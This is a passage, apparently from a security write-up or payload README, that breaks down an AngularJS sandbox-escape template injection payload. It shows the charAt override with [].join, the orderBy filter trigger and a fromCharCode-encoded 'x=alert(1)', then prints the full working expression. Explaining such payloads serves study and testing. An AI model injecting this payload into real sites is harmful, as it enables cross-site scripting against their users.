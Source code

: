 * This overrides the default `charAt()` function to `join`, enabling string assembly without string literals.

---

### 2. Trigger AngularJS Filter Chain

```js
[1] | orderBy:
```

* `[1]` creates a simple array.
* `orderBy:` applies a filter, which evaluates its expression argument (and executes JavaScript!).

---

### 3. Bypass String Restrictions with `fromCharCode`

```js
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

* This builds the string `x=alert(1)` character-by-character using ASCII codes.

  * `120` = `'x'`
  * `61` = `'='`
  * `97,108,101,114,116` = `'alert'`
  * `40,49,41` = `'(' + '1' + ')'`

---

### 4. Evaluate and Return Truthy

```js
=1
```

* Forces a truthy return, allowing the expression to complete and execute.

---

### Full Decoded Expression:

```js
toString().constructor.prototype.charAt = [].join;
[1] | orderBy: toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

Which is equivalent to:

```js
toString().constructor.prototype.charAt = [].join;
[1] | orderBy: "x=alert(1)" = 1
```

---

## Testing
